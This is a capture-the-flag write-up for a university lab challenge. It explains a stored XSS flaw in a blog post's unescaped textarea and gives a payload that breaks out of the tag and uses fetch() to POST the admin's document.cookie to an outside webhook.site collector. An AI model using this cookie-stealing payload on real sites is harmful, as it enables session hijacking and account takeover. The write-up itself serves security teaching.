 # Challenge `Go on and censor my posts` writeup

- Vulnerability:
  - _Endpoint has a **Cross Site Scripting (XSS)** vulnerability_
- Where:
  - _When writing the content, it will be displayed without any parsing in a unprotected `<textarea>` endpoint_
- Impact:
  - _Allows to **obtain the admin's cookies** by injecting malicious code in the content part of a blogpost_

## Steps to reproduce

First we connected to the server `http://mustard.stt.rnl.tecnico.ulisboa.pt:22253`. We can see that now the server allows anyone to submit new blogposts. Looking further, we make a 'test' post, and check the source code of the page. 
We can see that the content of the post is being displayed in a `<textarea>` tag, (seemingly) without any protection. This means that the server is probably vulnerable to **XSS**. Here is where the content is displayed:

```html
<textarea class="form-control" name="content" id="contentArea" rows="10" >Here is where the content is displayed...</textarea>
```

Having found a way to inject code in the page, we will lure the admin to perform a request to the site where we are collecting the cookies. Since we did not have any site of our own we used a online service to collect our https requests [Webhook](https://webhook.site/). 

The following payload its what will be inserted. By starting with `</textarea>`, the html will read it as finished, and will continue to read the rest of the code as normal html. The `fetch()` method will be triggered when the page is loaded, and will send a `POST` request with the `document.cookie`.

```html
</textarea><script>fetch('https://webhook.site/a0e83e7e-be55-4740-8180-f38200e300ea', {method: 'POST',mode: 'no-cors',body:document.cookie});</script></textarea>
```
This will only be effective when we choose to send it using the following button: `Update post and send it for admin review`.

As soon as the admin **'clicked the link',** we received the following cookie in the http request on our website:
```SECRET=SSof{Reject_this_blogpost.Too_many_weird_chars.I_dont_get_it}```

Now, we were able to store the request in a website we control and therefore have possession of the admin's cookie obtaining the **flag**.
